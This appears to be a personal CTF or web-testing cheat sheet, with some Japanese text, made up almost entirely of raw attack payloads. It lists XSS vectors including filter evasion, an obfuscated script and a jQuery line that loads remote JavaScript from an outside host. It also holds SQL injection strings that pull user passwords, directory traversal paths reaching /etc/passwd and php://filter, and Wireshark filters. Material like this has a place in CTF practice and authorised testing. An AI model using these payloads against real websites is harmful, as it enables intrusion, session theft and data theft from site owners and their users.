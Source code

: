 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

hoge
fuga' OORR '1

https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
